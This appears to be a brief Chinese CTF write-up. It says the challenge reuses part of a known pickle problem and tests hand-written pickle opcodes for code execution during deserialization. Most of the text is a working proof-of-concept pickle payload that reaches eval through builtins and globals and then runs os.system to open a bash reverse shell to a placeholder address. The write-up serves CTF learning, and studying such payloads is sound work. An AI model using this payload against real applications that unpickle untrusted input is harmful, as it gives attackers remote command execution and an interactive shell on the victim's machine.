 这题目就是把code-breaking的pickle code后半部分拎出来了,主要就是考察手写pickle code来达到反序列化多函数执行的效果

poc
```
cbuiltins
getattr
(cbuiltins
dict
S'get'
tR(cbuiltins
globals
(tRS'builtins'
tRp1
cbuiltins
getattr
(g1
S'eval'
tR(S'__import__("os").system("bash -i >& /dev/tcp/xx.xx.xx.xx/xxxx 0>&1")'
tR.
```
